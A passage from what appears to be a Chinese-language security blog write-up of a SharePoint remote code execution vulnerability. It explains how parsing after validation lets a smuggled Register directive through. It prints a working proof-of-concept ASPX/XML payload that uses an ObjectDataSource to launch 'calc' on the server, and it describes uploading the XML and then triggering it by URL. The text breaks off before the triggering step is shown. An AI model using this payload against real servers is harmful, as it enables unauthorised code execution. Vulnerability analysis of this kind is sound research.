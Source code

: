 ```

从上面可以看出 string -> xml tree 发生在校验之后，看看具体做了哪些事

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUb4uOvLfB04okwkR03rcnooAiarhPSnwvpjsdMvuzrJRuKwMmAvOFo2Q/640?wx_fmt=png)

正则如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUtA5aWahKRrTuzHajJ4sWgz7vf6Ds9t3LGFyO96uVaOCRp5B1Em6icZA/640?wx_fmt=png)

这个正则匹配的是内联表达式中的 Register 指令，有两个命名捕获：TagPrefix 和 DllInfo。

TagPrefix 用正则捕获，DllInfo 是 TagPrefix 之后的所有内容。比如下面的例子：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUALM1e5dQKfQRMn5CT6icUhenpnZsM6NvFENTjhlu0vL9MdCd20icxUSA/640?wx_fmt=png)

漏洞利用

```
<%@ Register TagPrefix="WebPartPages"
Namespace="Microsoft.SharePoint.WebPartPage" Assembly="Microsoft.SharePoint,
Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" %>
<%@ Register TagPrefix="SearchW"
Namespace="Microsoft.Office.Server.Search.WebControls"
Assembly="Microsoft.Office.Server.Search, Version=16.0.0.0, Culture=neutral,
PublicKeyToken=71e9bce111e9429c" %>
<%@ Register TagPrefix="asp3" Namespace="System.Web.UI.WebControls"
Assembly="System.Web, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=b03f5f7f11d50a3a" %>
<SearchW:DataProviderScriptWebPart ID="DPSWebPart1" runat="server" />
<div id="cdata1"><![CDATA[
<%-- prefix
--%<%@ Register TagPrefix="asp" Namespace="System.Web.UI.WebControls"
Assembly="System.Web, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=b03f5f7f11d50a3a" %>>
<asp3:ObjectDataSource ID="ODS1" runat="server" SelectMethod="Start"
Type >
<SelectParameters>
<asp3:Parameter Direction="input" Type="string" 
DefaultValue="calc"/>
</SelectParameters>
</asp3:ObjectDataSource>
<asp3:ListBox ID="LB1" runat="server" DataSourceID = "ODS1" />
<%-- sufix
--%>
]]></div>
```

利用过程跟 CVE-2020-16951 类似，都是先将 POC 的 xmlput 上去，然后再访问指定的 url 来进行触发。

参数可以在母版页找到

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUa7FJG8ATlL980Ogz3j3Mtic3B5y1Fav29Tibiao3l82c3hMmRC2fXVpWA/640?wx_fmt=png)

上传成功

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUVj2QkNTxJiam5K6OZRDD0ZeyCnJ9Zl2iciahibWwoZibY73cORZ4eicytsgg/640?wx_fmt=png)

下面就是访问指定链接的问题了
```